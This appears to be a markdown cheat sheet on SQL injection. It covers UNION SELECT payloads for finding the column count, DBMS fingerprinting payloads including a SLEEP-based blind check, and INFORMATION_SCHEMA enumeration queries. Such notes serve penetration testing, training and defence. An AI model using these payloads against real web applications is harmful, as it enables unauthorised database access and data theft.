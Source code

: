 #### Using UNION SELECT
```sql
' UNION SELECT NULL-- -
' UNION SELECT NULL,NULL-- -
' UNION SELECT NULL,NULL,NULL-- -
```
Add NULL values until no error occurs.

### UNION Payload Structure
```sql
' UNION SELECT NULL,NULL,NULL-- -
```
Use NULL to fill columns as it's compatible with all data types.

---

## Database Fingerprinting

### DBMS Detection

| Payload            | Database      | Expected Output | Notes                    |
| ------------------ | ------------- | --------------- | ------------------------ |
| `SELECT @@version` | MySQL/MariaDB | Version string  | Full query output needed |
| `SELECT POW(1,1)`  | MySQL         | `1`             | Numeric output only      |
| `SELECT SLEEP(5)`  | MySQL         | 5-second delay  | Blind injection          |

### Version Information
- **Apache/Nginx** web servers typically use **MySQL**
- Use fingerprinting to confirm DBMS type before enumeration

---

## Database Enumeration

### Information Schema Structure

```
INFORMATION_SCHEMA
├── SCHEMATA (databases)
├── TABLES (table names)
├── COLUMNS (column details)
└── USER_PRIVILEGES (permissions)
```

### Enumeration Queries

#### Database Names
```sql
SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA
```
